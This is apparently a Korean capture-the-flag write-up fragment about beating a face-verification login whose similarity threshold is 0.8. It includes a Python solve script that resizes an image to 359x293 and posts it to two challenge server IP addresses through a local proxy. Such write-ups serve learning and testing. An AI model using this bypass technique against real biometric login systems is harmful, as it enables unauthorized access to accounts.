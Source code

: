 ![image.png](/assets/post/75/image9.png)

로그인 시 `similarity` 가 0.8이상이 되면 로그인에 성공합니다. 

이미지 resize해서 보내니 359x293 일때 FLAG를 얻을 수 있습니다.

```python
{"success":false,"message":"검증 실패","similarity":0.6851586103439331,"threshold":0.8}

```

```python
import requests
from PIL import Image
import os

proxies = {"http":"127.0.0.1:8080", "https":"127.0.0.1:8080"}

output_filename = "source.png"
test_score = 0.75

Image.open(output_filename).convert('RGB').resize((359,293), Image.Resampling.BOX).save("source_solve.jpg")
with open(f"source_solve.jpg", "rb") as f:
            #해당 서버는 초당 10번의 요청을 허용합니다.
        res = requests.post("http://16.184.29.153/verify-face", files={"file": f}, proxies=proxies)
        if res.status_code != 200:
            res = requests.post("http://54.180.253.212/verify-face", files={"file": f}, proxies=proxies)            
        print(f"result: {res.text}")
```
